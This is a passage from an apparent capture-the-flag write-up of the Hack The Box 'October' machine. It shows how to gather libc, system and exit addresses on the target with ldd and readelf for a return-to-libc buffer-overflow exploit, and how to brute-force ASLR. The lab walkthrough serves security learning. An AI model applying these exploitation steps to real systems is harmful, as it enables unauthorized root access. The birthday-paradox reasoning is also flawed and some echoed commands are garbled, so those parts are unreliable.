 HOWEVER!

Inspecting this output, I notice that the memory addresses stay relatively the same.
They generally all begin with `0xb75`, some with `0xb76`.
They all end in `000`.
Really, only the single byte in the middle is changing each time.
This means there are 512 possibilities for `libc`'s address in each invocation.
In other words, I have a 1/512 chance of _guessing_ `libc`'s memory address each time I invoke the executable.
If I exploit the binary 513 times, there is an extremely high chance that I will see one of these addresses again.
In fact, due to the [birthday paradox][], I only need about 30 guesses to get over 50% probability that I'll correctly guess `libc`'s memory address.

![birthday paradox calculation][]

<small><https://www.dcode.fr/birthday-problem></small>

I can use the first memory address in the above list, `0xb75b9000`, and brute force the payload until I get a shell.
Note that this only works because we can crash this program as many times as we need without breaking the server.

So, now I need to gather memory addresses from the target system instead of my test VM.

I get `libc`'s memory address on the __target__ - `0xb755c000`:

```bash
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc  
ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb755c000)
```

Now I need the memory offsets of `system`, `exit`, and `/bin/sh` from the relative location of the memory address of `libc`.
This allows these three memory addresses to be correct as long as we guess the correct `libc` address during any execution.
We get these memory offsets with `readelf` on the `/lib/i386-linux-gnu/libc.so.6` library, as that is in the result of the previous `libc` memory address command.

The `system@@GLIBC_2.0` address is `0x00040310`.

```bash
www-data@october:/dev/shm$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i system
stemelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i sy 
   243: 0011b710    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   620: 00040310    56 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```

The `exit@@GLIBC_2.0` address is `0x00033260`.

```bash
www-data@october:/dev/shm$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i exit
itadelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i ex 
   111: 00033690    58 FUNC    GLOBAL DEFAULT   12 __cxa_at_quick_exit@@GLIBC_2.10
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
   446: 000336d0   268 FUNC    GLOBAL DEFAULT   12 __cxa_thread_atexit_impl@@GLIBC_2.18
   554: 000b84f4    24 FUNC    GLOBAL DEFAULT   12 _exit@@GLIBC_2.0
   609: 0011e5f0    56 FUNC    GLOBAL DEFAULT   12 svc_exit@@GLIBC_2.0
   645: 00033660    45 FUNC    GLOBAL DEFAULT   12 quick_exit@@GLIBC_2.10
   868: 00033490    84 FUNC    GLOBAL DEFAULT   12 __cxa_atexit@@GLIBC_2.1.3
  1037: 00128b50    60 FUNC    GLOBAL DEFAULT   12 atexit@GLIBC_2.0
  1380: 001ac204     4 OBJECT  GLOBAL DEFAULT   31 argp_err_exit_status@@GLIBC_2.1
  1492: 000fb480    62 FUNC    GLOBAL DEFAULT   12 pthread_exit@@GLIBC_2.0
  1836: 000b84f4    24 FUNC    WEAK   DEFAULT   12 _Exit@@GLIBC_2.1.1
  2090: 001ac154     4 OBJECT  GLOBAL DEFAULT   31 obstack_exit_failure@@GLIBC_2.0
  2243: 00033290    77 FUNC    WEAK   DEFAULT   12 on_exit@@GLIBC_2.0
  2386: 000fbff0     2 FUNC    GLOBAL DEFAULT   12 __cyg_profile_func_exit@@GLIBC_2.2
```

[birthday paradox]: https://en.wikipedia.org/wiki/Birthday_problem
[gdb]: https://www.gnu.org/software/gdb/
[hackthebox]: https://www.hackthebox.eu
[htb frolic]: https://blog.artis3nal.com/2020-06-28-htb-frolic-msf/
[lse]: https://github.com/diego-treitos/linux-smart-enumeration
[october cms]: https://octobercms.com/
[peda]: https://github.com/longld/peda
[return-to-libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[searchsploit]: https://github.com/offensive-security/exploitdb#searchsploit
[birthday paradox calculation]: /assets/img/htb/october/birthday-paradox.png
[checksec]: /assets/img/htb/october/checksec.png
[gdb peda]: /assets/img/htb/october/gdb-with-peda.png
[overflow root shell]: /assets/img/htb/october/buffer-overflow-brute.png